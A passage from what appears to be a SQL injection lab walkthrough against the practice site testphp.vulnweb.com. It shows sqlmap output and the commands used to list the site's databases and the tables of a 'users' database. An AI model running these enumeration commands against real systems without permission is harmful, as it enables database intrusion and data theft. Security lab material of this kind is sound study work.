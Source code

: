 ```
[13:24:12] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:24:11 /2021-10-14/
```

**Get the databases**

```
# sqlmap -r request.txt --dbs
```

![image-20211015153348756](images/image-20211015153348756.png)

**Get the tables**

```
# sqlmap -r request.txt -D users --tables
```
